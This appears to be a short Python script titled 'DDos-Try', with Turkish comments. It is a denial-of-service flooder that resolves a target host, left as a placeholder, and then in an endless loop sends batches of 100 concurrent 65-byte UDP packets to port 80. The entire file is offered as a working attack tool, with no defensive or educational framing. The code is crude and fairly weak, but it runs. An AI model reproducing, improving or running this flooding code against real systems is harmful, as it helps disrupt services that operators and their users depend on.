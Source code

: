 # DDos-Try
import asyncio
import socket

# Hedef bilgiler
HOST = "Enter Web IP here"
PORT = 80  # HTTP varsayılan portu

# Maksimum eşzamanlı görev sayısı
MAX_CONCURRENT_REQUESTS = 100

# 65 baytlık veri
UDP_PACKET_SIZE = 65
MESSAGE = b"A" * UDP_PACKET_SIZE  # 65 baytlık sabit bir veri

# UDP ile veri gönderme fonksiyonu
async def udp_gonder(ip, port, i):
    try:
        # UDP soketi oluştur
        with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as udp_socket:
            udp_socket.sendto(MESSAGE, (ip, port))  # 65 baytlık veriyi gönder
            print(f"İstek {i}: 65 baytlık veri gönderildi")
    except Exception as e:
        print(f"İstek {i}: Hata oluştu - {e}")

# Eşzamanlı UDP gönderim grubu
async def udp_grubu_gonder(ip, port, baslangic, bitis):
    tasks = [udp_gonder(ip, port, i) for i in range(baslangic, bitis)]
    await asyncio.gather(*tasks)

# Sürekli UDP istek gönderme fonksiyonu
async def surekli_udp_istek():
    try:
        ip = socket.gethostbyname(HOST)  # Hostname'i IP adresine çevir
        i = 0
        while True:
            baslangic = i
            bitis = i + MAX_CONCURRENT_REQUESTS
            await udp_grubu_gonder(ip, PORT, baslangic, bitis)
            i += MAX_CONCURRENT_REQUESTS
    except Exception as e:
        print(f"UDP işlemi sırasında hata oluştu: {e}")

# Programı başlat
asyncio.run(surekli_udp_istek())
